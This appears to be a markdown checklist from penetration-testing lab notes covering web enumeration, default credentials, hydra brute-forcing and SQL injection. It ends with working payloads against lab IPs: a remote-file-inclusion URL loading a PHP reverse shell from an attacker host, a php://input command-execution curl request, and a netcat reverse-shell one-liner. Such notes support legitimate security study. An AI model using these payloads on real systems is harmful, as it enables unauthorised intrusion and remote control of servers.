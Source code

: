 # Web Path
## Basic Enumeration
- Find the index page
- Check wappalyzer in order to see what the page was built with
- What is the version of the web server running
### Paths
- Enumerate the url paths to see if anything is hidden, and to map the site
- Check `robots.txt` 
- See if `php` files are taking parameters like `10.11.1.16/administrator/alerts/alertConfigField.php?urlConfig=`
### Is there a login form?
- If its `phpmyadmin` or another application
- Try default creds
- Try basic `SQL-i`
#### Is it user generated content?
- Is there a username?
- If there is use hydra and try to brute the login
- Try basic `SQL-i`
### Vulnerabilities 
- Run `nikto`
- Exploit-db and look for vulnerabilities for the CMS or application running as well as the core version of the web server running
- Can you get RFI?
````
http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://192.168.119.123/php_reverse_shell.php%00
````
- ![image](https://user-images.githubusercontent.com/75596877/133100040-9f4a1a6a-1b86-4955-9c4d-651d59e51b31.png)
- Can you now get RCE via RFI?
````
curl -s --data "<?system('ls -la');?>" "http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=php://input%00"
````
- Now can you get a true call back?
````
curl -s --data "<?system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.119.123 443 >/tmp/f');?>" "http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=php://input%00"![image](https://user-images.githubusercontent.com/75596877/133100324-7fedf270-77f0-481c-b6cc-e5ddce371e30.png)

````



































